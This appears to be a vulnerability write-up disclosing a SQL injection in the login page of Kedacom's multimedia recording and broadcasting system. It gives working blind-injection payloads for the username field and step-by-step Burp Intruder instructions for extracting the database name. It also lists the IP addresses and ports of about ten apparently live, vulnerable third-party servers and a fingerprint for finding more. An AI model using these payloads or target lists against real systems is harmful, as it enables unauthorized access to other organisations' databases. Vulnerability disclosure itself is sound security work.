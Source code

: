 sql injection exists in the foreground of multimedia recording and broadcasting system of Suzhou Keda Technology Co., LTD

Vulnerability description

sql injection exists in the foreground of multimedia recording and broadcasting system of Suzhou Keda Technology Co., LTD. Attackers can obtain sensitive database information through this vulnerability.

Proof of company assets:

![](https://github.com/chennuo17/cve/blob/main/picture/1.png)

company's official website：https://www.kedacom.com/cn

Impact version: v5.2,v6.0

Influence routing:

Authorization: Digest_SM3 username="admin"

injection parameter:username

Space mapping： title="科达视讯云-会议录播系统"

![](https://github.com/chennuo17/cve/blob/main/picture/2.png)

Example I

http://123.178.21.234:4700/login.html

· Enter the user name in the login area payload：admin22'or if(ascii(mid(database(),1,1))=55,1,2)=1#

Enter the password as you please  1111111
At this point, observe the burp history packet and place it into the intruder for blasting

![](https://github.com/chennuo17/cve/blob/main/picture/3.png)

Select the second packet, the one with the shorter length, and send it to the intruder

![](https://github.com/chennuo17/cve/blob/main/picture/4.png)

Add $to this 55 right here

![](https://github.com/chennuo17/cve/blob/main/picture/5.png)

number   choose   32-126

![](https://github.com/chennuo17/cve/blob/main/picture/6.png)

Observe the length length, the ascii code decoding corresponding to the last 107 is k, and then adjust the second position in mid continuously to obtain the database name kdvvrs

![](https://github.com/chennuo17/cve/blob/main/picture/7.png)

Instance II

http://123.178.21.234:4700/login.html

· Enter the user name in the login area payload：admin22'or if(ascii(mid(database(),1,1))=55,1,2)=1#

Enter the password as you please 1111111
At this point, observe the burp history package, put it into the intruder and blast it, other steps are the same as above.
 ![](https://github.com/chennuo17/cve/blob/main/picture/8.png)

Example 3

[http://125.87.2.93:8888/login.html](http://123.178.21.234:4700/login.html)

· Enter the user name in the login area payload：admin22'or if(ascii(mid(database(),1,1))=55,1,2)=1#

Enter the password as you please  1111111
At this point, observe the burp history package, put it into the intruder and blast it, other steps are the same as above.
This is to see if there is "error_code" : 5, and use this to filter the correct response

 ![](https://github.com/chennuo17/cve/blob/main/picture/9.png)

![](https://github.com/chennuo17/cve/blob/main/picture/10.png)

 The first digit of the database is k, the second digit is d, and finally kdvvrs

 

![](https://github.com/chennuo17/cve/blob/main/picture/11.png)

Note: Some subsequent time blind note: can be used

payload:admin22'or if(ascii(mid(database(),1,1))=107,sleep(4),'1'='1')# to validate, delay when correct, not when incorrect, Since the first digit of the database is k, we can use 107 to verify whether the delay is sufficient.

Other cases：

4. https://101.71.125.187/login.html
5. https://60.170.38.162:4443/login.html
6. https://118.182.85.74:8020/login.html
7. https://60.168.128.203:8020/login.html
8. https://183.234.187.101/login.html
9. https://183.242.47.149:8020/login.html
10. http://125.87.2.93:8888/login.html
11. http://111.75.206.239/login.html

# Number of the CNVD certificate

 CNVD-YCGW-202406042039

